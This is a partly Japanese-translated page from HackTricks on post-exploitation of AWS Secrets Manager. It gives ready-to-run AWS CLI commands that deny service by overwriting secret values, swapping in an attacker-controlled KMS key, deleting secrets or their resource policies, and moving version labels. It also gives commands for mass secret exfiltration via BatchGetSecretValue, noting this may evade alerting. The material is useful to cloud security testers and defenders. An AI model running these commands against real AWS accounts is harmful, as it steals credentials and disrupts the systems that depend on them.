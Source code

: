 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

詳細は以下を参照してください:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### シークレットの読み取り

The **シークレット自体は機密情報です**, [check the privesc page](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) でそれらの読み取り方法を確認してください。

### DoS シークレットの値の変更

シークレットの値を変更すると、その値に依存するすべてのシステムを**DoSする可能性があります。**

> [!WARNING]
> 以前の値も保存されているため、簡単に以前の値に戻すことができます。
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

攻撃者が secretsmanager:UpdateSecret 権限を持っていると、secret を攻撃者が所有する KMS key を使うように設定できます。そのキーは当初、誰でもアクセスして使用できるように設定されているため、secret を新しいキーで更新することが可能です。もしそのキーにアクセスできなければ、secret の更新はできません。

secret のキーを変更した後、攻撃者は自分のキーの設定を変更して自分だけがアクセスできるようにします。こうすることで、以降のバージョンの secret は新しいキーで暗号化され、そのキーにアクセスできないため、secret を取得する能力が失われます。

重要なのは、このアクセス不能は secret の内容が変更された後の以降のバージョンでのみ発生する点です。現在のバージョンはまだ元の KMS key で暗号化されているためです。
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Secret の削除

secret を削除するための最小日数は7日です
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

シークレットは復元可能であり、削除がスケジュールされたシークレットを復元できます。シークレットの最短削除期間は7日、最長は30日です。secretsmanager:GetSecretValue 権限と組み合わせることで、その内容を取得できるようになります。

削除処理中のシークレットを復元するには、次のコマンドを使用します:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

このアクションは、secret へのアクセスを制御するリソースポリシーを削除することを許可します。リソースポリシーが特定のユーザーの集合へのアクセスを許可するように構成されていた場合、DoS を引き起こす可能性があります。

リソースポリシーを削除するには:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

シークレットの状態はシークレットのバージョンを管理するために使用されます。AWSCURRENT はアプリケーションが使用するアクティブなバージョンを示し、AWSPREVIOUS は必要に応じてロールバックできるよう前のバージョンを保持し、AWSPENDING は新しいバージョンを current にする前に準備・検証するローテーションプロセスで使用されます。

アプリケーションは常に AWSCURRENT が付いたバージョンを読みます。誰かがそのラベルを誤ったバージョンに移動すると、アプリは無効な認証情報を使ってしまい、失敗する可能性があります。

AWSPREVIOUS は自動的には使用されません。ただし、AWSCURRENT が削除されたり誤って再割り当てされた場合、すべてが依然として前のバージョンで動作しているように見えることがあります。
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Secrets Manager BatchGetSecretValue API を悪用して、1 回のリクエストで最大 20 件のシークレットを取得します。これは、シークレットごとに GetSecretValue を繰り返す場合に比べて API コール数を大幅に削減できます。フィルタ（tags/name）を使用する場合は ListSecrets の権限も必要です。CloudTrail は、バッチで取得された各シークレットごとに 1 件の GetSecretValue イベントを記録します。

必要な権限
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue for each target secret
- secretsmanager:ListSecrets if using --filters
- kms:Decrypt on the CMKs used by the secrets (if not using aws/secretsmanager)

> [!WARNING]
> permission `secretsmanager:BatchGetSecretValue` はシークレットを取得するのに十分ではなく、取得したい各シークレットに対して `secretsmanager:GetSecretValue` が必要です。

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
フィルタを使用した Exfiltrate (tag key/value または name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
部分的な失敗の処理
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
影響
- 少ないAPIコールで多数のシークレットを迅速に「smash-and-grab」し、GetSecretValueの急増に合わせたアラートを回避する可能性がある。
- CloudTrailのログには、バッチで取得された各シークレットごとに1件のGetSecretValueイベントが引き続き記録される。
{{#include ../../../../banners/hacktricks-training.md}}
